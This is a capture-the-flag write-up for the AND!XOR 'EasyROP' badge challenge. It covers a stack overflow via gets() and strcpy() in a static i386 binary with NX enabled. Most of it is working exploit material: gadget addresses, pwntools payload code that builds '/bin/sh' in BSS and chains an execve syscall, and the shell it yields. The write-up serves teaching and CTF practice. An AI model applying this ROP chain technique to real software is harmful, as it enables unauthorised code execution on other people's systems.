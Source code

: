 # AND!XOR Badge Challenge

This challenge was written by [@aagallag](https://twitter.com/aagallag) and was shared with some PDX local hacker groups by [@AndnPDXor](https://twitter.com/AndnPDXor). The first person to hack it was rewarded with a limited edition DEFCON 28: SAFE MODE AND!XOR badge! #mattdamon

## The Binary

The binary ([bin](EasyRop), [src](EasyRop.c)), is pretty simple, and has an obvious buffer overflow via `gets()` and `strcpy()`:

```c
void function(char *str)
{
   char buffer[16];
   strcpy(buffer,str);
}

void main()
{
  char large_string[256];
  gets(large_string);

  function(large_string);
  printf("Nope. String is %s\n", large_string);
}
```

As the name implies, NX is enabled so we need to build a ROP chain to exploit this:

```
$ checksec EasyROP
[*] '/home/zander/ctf/badge/EasyROP'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## The Exploit

The easiest way to exploit this is to call `system("/bin/sh")`. Unfortunately, the program is static and doesn't call `system()`, so the function isn't available:

```
$ objdump -x EasyROP | grep system
080ce3cc l     O .rodata        00000010 system_dirs_len
080ce3e0 l     O .rodata        0000003e system_dirs
$ file EasyROP
EasyROP: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=0354e0c06c00b1cf1a64ac323ad924090451136d, not stripped
```

However, there is a syscall gadget available so we can build a ROP chain to do `execve("/bin/sh", 0, 0)`:

```
$ ROPgadget --binary EasyROP | grep ": int 0x80"      
0x0806d685 : int 0x80
```

The string `"/bin/sh"` isn't present in the binary, so it needs to be built somehow:

```
$ strings EasyROP | grep "/bin/sh"
$
```

This can be done using `strcpy()` and assemble it using other strings in the binary. A good target for building the string is the BSS section, because it has read/write permissions. I wrote this to the middle of the section that was just null bytes, at `0x80eb001`.

I used the `search` command in pwndbg to find `/`, `bin` and `sh` in the binary (manually truncated results):

```
pwndbg> search "/"
EasyROP         0x80d9a6c das     /* '/' */
pwndbg> search "bin"
EasyROP         0x80bc340 bound  ebp, qword ptr [ecx + 0x6e] /* 'binary' */
pwndbg> search "sh"
EasyROP         0x80bf17d jae    0x80bf1e7 /* 'sh' */
```

Below is a snippet from my exploit that builds the string. The `pop2_ret` variable is a pointer to a pop pop ret gadget that will allow us to chain ROP gadgets together (for a primer on ROP, please review [these slides](https://cand-f18.unexploitable.systems/l/lab05/W5L1.pdf) from Dr. Yeongjin Jang's Cyber Attacks & Defenses class at Oregon State)

```py
# strcpy
# 0x80d9a6c = /
# 0x80bc340 = bin
# 0x80bf17d = sh
s_slash = p32(0x80d9a6c)
s_bin = p32(0x80bc340)
s_sh = p32(0x80bf17d)

# write str to bss (no null byte)
s_binsh = 0x80eb001

strcpy = p32(elf.symbols['__strcpy_sse2'])

payload += strcpy
payload += pop2_ret
payload += p32(s_binsh)
payload += s_slash

payload += strcpy
payload += pop2_ret
payload += p32(s_binsh+1)
payload += s_bin

payload += strcpy
payload += pop2_ret
payload += p32(s_binsh+4)
payload += s_slash

payload += strcpy
payload += pop2_ret
payload += p32(s_binsh+5)
payload += s_sh
```

Here's what the above chain looks like in C

```c
// s_binsh = ""

strcpy(s_binsh, s_slash);

// s_binsh = "/"

strcpy(s_binsh+1, s_bin);

// s_binsh = "/binary"

strcpy(s_binsh+4, s_slash);

// s_binsh = "/bin/"

strcpy(s_binsh+5, s_sh);

// s_binsh = "/bin/sh"
```

Now that we have `"/bin/sh"`, we can prepare our syscall. To make the `execve("/bin/sh", 0, 0)` syscall, we need to set the following registers:

* `eax`: Syscall number - `0xb`
* `ebx`: Program string - `"/bin/sh"`
* `ecx`: argv array - `NULL`
* `edx`: envp array - `NULL`

In order to zero out ecx and edx, I used `xor` gadgets to avoid null bytes (although this ended up not being an issue). These gadgets worked well:

```
0x080497e3 : xor ecx, ecx ; pop ebx ; mov eax, ecx ; pop esi ; pop edi ; pop ebp ; ret
0x08072180 : xor edx, edx ; mov eax, edx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
```

The `xor ecx, ecx` gadget also allowed me to control ebx, so that took care of the program string. I also needed gadgets to control `eax` and to trigger the syscall. I already showed the syscall gadget earlier, and the `eax` gadget just does `pop eax ; ret`.

With that, I was able to build the full syscall:

```py
# execve("/bin/sh", 0, 0)
# eax = 0xb
# ebx = "/bin/sh"
# ecx = 0
# edx = 0

payload += xor_edx_stuff
payload += 4 * nop

payload += xor_ecx_stuff
payload += p32(s_binsh) # ebx
payload += 3 * b"bbbb"

payload += xor_eax
payload += pop_eax
payload += p32(0xb)

payload += syscall
```

And with that, a shell is born!

```
 ./exploit.py remote
[+] Opening connection to xxxxxxx on port 1337: Done
[*] '/home/zander/ctf/badge/EasyROP'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loaded cached gadgets for './EasyROP'
[*] wuddup
[*] Switching to interactive mode
$ id
uid=1000(easyrop) gid=1000(easyrop) groups=1000(easyrop)
```
